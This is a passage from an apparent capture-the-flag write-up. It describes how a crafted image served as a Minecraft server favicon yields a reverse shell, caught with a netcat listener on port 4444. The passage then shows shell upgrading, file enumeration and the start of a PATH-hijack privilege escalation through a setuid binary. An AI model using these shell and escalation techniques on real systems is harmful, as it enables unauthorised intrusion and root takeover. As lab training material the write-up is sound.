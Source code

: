 The crafted image is base64-encoded and returned as the Minecraft server's favicon.
With a listener ready (`nc -lvnp 4444`), the debug request triggers the exploit. Reverse shell received:

```
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on <IP> 37404
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(flaskuser) gid=1000(flaskuser) groups=1000(flaskuser)
```

---

## Shell Upgrade & Initial Enumeration

Upgrading the shell for usability:

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Directory listing reveals:

```
flaskuser@app:/app$ alias ll="ls -lsah"
flaskuser@app:/app$ ll
total 52K
8.0K drwxr-xr-x 1 flaskuser flaskuser 4.0K Jun 28 15:25 .
4.0K drwxr-xr-x 1 root      root      4.0K Jun 28 15:25 ..
4.0K -rw-r--r-- 1 flaskuser flaskuser 2.4K May 29 10:39 app.py
 16K ---s--x--x 1 root      root       16K May 29 10:39 fix_permissions
4.0K ---------- 1 root      root        40 May 29 10:39 flag.txt
4.0K drwxr-xr-x 1 flaskuser flaskuser 4.0K Jun 28 16:08 images
4.0K -rw-r--r-- 1 flaskuser flaskuser   25 May 29 10:39 requirements.txt
4.0K -rw-r--r-- 1 flaskuser flaskuser    2 Jun 28 15:25 supervisord.pid
4.0K drwxr-xr-x 1 flaskuser flaskuser 4.0K May 29 10:39 templates
```

The flag file (`flag.txt`) is present but only readable by root.

---

## Privilege Escalation: setuid Binary and PATH Hijack

A setuid binary is present: `fix_permissions` (owned by root).
This means that the script will be executed with root rights.
Examining its behavior:

```
flaskuser@app:/app$ ./fix_permissions
[*] Fixing permissions for files in /app/images
[*] Running as UID: 0
[*] Command: chmod 400 *
```
